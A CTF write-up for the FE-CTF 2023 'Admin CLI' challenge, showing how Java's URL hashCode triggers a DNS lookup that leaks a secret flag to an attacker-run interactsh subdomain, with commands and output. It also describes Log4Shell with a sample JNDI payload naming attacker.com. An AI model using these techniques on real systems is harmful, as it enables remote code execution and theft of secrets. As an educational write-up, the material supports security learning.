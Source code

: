 ```yaml
---
title: 'FECTF 2023 Admin CLI writeup'
shortTitle: 'Admin CLI'
date: 2023-10-30
length: 6 min
author: Alexander
headline: Read a solution to Admin CLI in FE CTF 2023
---
```


> **Admin CLI**  
> A (very) early version of the administration tool used for FE-CTF was found. Looks like they only just started making it, but maybe it's already vulnerable?
>
> ```
> nc admin-cli.hack.fe-ctf.dk 1337
> ```
>
> [link to code]

---

<details>
<summary>Table of contents</summary>

- [The files](#the-files)
- [A red herring](#a-red-herring)
  - [How does Log4Shell work?](#how-does-log4shell-work)
- [The actual solution](#the-actual-solution)
- [Exploiting the server](#exploiting-the-server)

</details>

## The files

In the download we get the following 2 files.

<details>
<summary>Dockerfile</summary>

```Dockerfile
FROM ubuntu:22.04

RUN apt update -y
RUN apt install -y wget openjdk-19-jdk unzip socat

USER nobody

WORKDIR /tmp
RUN wget http://archive.apache.org/dist/logging/log4j/2.14.1/apache-log4j-2.14.1-bin.zip
RUN unzip apache-log4j-2.14.1-bin.zip

COPY Main.java .
RUN javac -cp '/tmp/apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar:/tmp/apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar' Main.java
CMD socat -v tcp-listen:1337,fork,reuseaddr system:"java -cp '.:/tmp/apache-log4j-2.14.1-bin/log4j-api-2.14.1.jar:/tmp/apache-log4j-2.14.1-bin/log4j-core-2.14.1.jar' Main",stderr
```

</details>
<details>
<summary>Main.java</summary>

```java
import java.util.Base64;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.Scanner;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.Level;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.core.config.Configurator;


public class Main {

	/* flag{....} */
	private static String API_KEY = Base64.getUrlEncoder().encodeToString(System.getenv("FLAG").getBytes());

	/* Doesn't seem to be authorized, I don't know why... */
	/* https://backend.fe-ctf.local/removePoints?teamId=0&amount=1000&key=api_key */
	private static int HASH_CODE = -615519892;

	/* Should be safe, right? */
	private static Logger logger = LogManager.getLogger(Main.class);

	public static void main(String[] args) {
		Configurator.setLevel(Main.class.getName(), Level.INFO);
		Scanner s = new Scanner(System.in);
		System.out.print("Enter URL: ");
		String input = s.nextLine();
		s.close();
		try {
			URL url = new URL(input.replaceAll("API_KEY", API_KEY));
			if (url.hashCode() == HASH_CODE && url.getHost().equals("backend.fe-ctf.local")) {
				logger.info("URLs Matched, sending request to {}", url);
				/* TODO: Figure out how to send request
				HttpURLConnection con = (HttpURLConnection) url.openConnection();
				con.setRequestMethod("GET")
				*/
			} else {
				logger.warn("URLs are not equal!");
			}
		} catch (MalformedURLException e) {
			logger.error("Invalid URL");
			System.exit(1);
		}
	}
}
```

</details>

This is a docker container that runs some server. When you netcat it, it asks for a URL. If `API_KEY` is present in the URL, it is replaced with a base64 encoding of the flag. Finally, if the url hash matches some hardcoded hash and domain, it is printed.

## A red herring

If you were on the internet in December of 2021, chances are you've heard of [Log4Shell](https://en.wikipedia.org/wiki/Log4j#Log4Shell_vulnerability), the Log4j RCE that affected every java-using company and their dog. The Dockerfile downloads Log4j version 2.14.1, and wouldn't you know, that's the vulnerable one.

### How does Log4Shell work?

Log4j is a logger that support various special syntaxes in the string. For example, `${java:version}` in a logged string would turn into the version of java used. One of these syntaxes allowed you to request resources from the internet: `${jndi:ldap://attacker.com/payload}`. If `payload` is a Java _class file_, the server will execute it.  
_Take a look at the [HackTricks page](https://book.hacktricks.xyz/pentesting-web/deserialization/jndi-java-naming-and-directory-interface-and-log4shell#log4shell-vulnerability) for more information._

Now to the logging part. The code only logs user input once it passes the hashcode check, which means that we not only have to create a url that matches the hardcoded hash, we also have to include a Log4Shell exploit. Hash collisions are possible, but very hard to pull off in practice, but let's look at the `java.net.URL` `hashCode` method anyway.

```java
protected int hashCode(URL u) {
    int h = 0;

    // Generate the protocol part.
    String protocol = u.getProtocol();
    if (protocol != null)
        h += protocol.hashCode();

    // Generate the host part.
    InetAddress addr = getHostAddress(u);
    [   ...   ]
```

Wait what? So to calculate the hashcode for a URL, Java _gets the IP_ of the host. Turns out that, for [legacy reasons](https://stackoverflow.com/a/2349535/9877700), the way Java determines if 2 URLs are the same is not by looking at the URL itself, but at the _resource_ the url points to. Since multiple domains can point to the same IP, Java decides to look up the IP.  
_HackTricks also has a [page](https://book.hacktricks.xyz/pentesting-web/deserialization/java-dns-deserialization-and-gadgetprobe) for this._

## The actual solution

To get the IP of a domain, Java needs to do a DNS request to said domain. We can listen for this using a tool like [CanaryTokens](https://canarytokens.org/). Simply generate a DNS token and pass it to the program:

```bash
┌──(color㉿COLORDESKTOP)-[~]
└─$ nc admin-cli.hack.fe-ctf.dk 1337
Enter URL: https://h3ft0p3s5pp6gk21b800tvl1f.canarytokens.com
10:05:12.820 [main] WARN  Main - URLs are not equal!
```

and a few seconds later...
![canarytoken email](/media/writeups/fectf23/admin-cli/canarytoken_email.png)

Perfect! This means we should be able to skip the Log4Shell exploit entirely and leak the flag in the DNS request! If we were to pass `https://API_KEY.token.canarytokens.com`, the server should replace `API_KEY` with the flag.  
Sadly, this doesn't work. CanaryTokens doesn't support wildcard subdomains, so the token isn't triggered.

Turns out there's a similar tool that _does_ in fact work with wildcard subdomains: [interactsh](https://github.com/projectdiscovery/interactsh). All we have to do is run the command...

```bash
┌──(color㉿COLORDESKTOP)-[~/go/bin]
└─$ ./interactsh-client
    _       __                       __       __
   (_)___  / /____  _________ ______/ /______/ /_
  / / __ \/ __/ _ \/ ___/ __ '/ ___/ __/ ___/ __ \
 / / / / / /_/  __/ /  / /_/ / /__/ /_(__  ) / / /
/_/_/ /_/\__/\___/_/   \__,_/\___/\__/____/_/ /_/

                projectdiscovery.io

[INF] Current interactsh version 1.1.7 (latest)
[INF] Listing 1 payload for OOB Testing
[INF] ckvo44rjtart315p97ngu7yq3azk3x51j.oast.live
```

...and we get a payload url. If we open it in a browser...

```bash
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:15:25
[ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:15:26
```

...it gets logged. If we were to append a subdomain such as `flag.ckvo44rjtart315p97ngu7yq3azk3x51j.oast.live`...

```bash
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:16:17
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 188.126.94.66 at 2023-10-30 10:16:17
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:16:18
[flag.ckvo44rjtart315p97ngu7yq3azk3x51j] Received HTTP interaction from 188.126.94.88 at 2023-10-30 10:16:18
```

...it gets logged too!

## Exploiting the server

Now all we have to do is send the payload to the server

```bash
┌──(color㉿COLORDESKTOP)-[~]
└─$ nc admin-cli.hack.fe-ctf.dk 1337
Enter URL: http://API_KEY.ckvo44rjtart315p97ngu7yq3azk3x51j.oast.live
10:17:31.110 [main] WARN  Main - URLs are not equal!
```

and we should get the base64 flag.

```bash
[ZmxhZ3tVTjNYUDNDVDNEXzNYRjFMVFI0VDEwTn0=.ckvo44rjtart315p97ngu7yq3azk3x51j] Received DNS interaction (A) from 172.253.248.37 at 2023-10-30 10:17:30
```

Decoding that...

```bash
┌──(color㉿COLORDESKTOP)-[~/go/bin]
└─$ echo "ZmxhZ3tVTjNYUDNDVDNEXzNYRjFMVFI0VDEwTn0=" | base64 -d
flag{UN3XP3CT3D_3XF1LTR4T10N}
```

...we've got a flag!
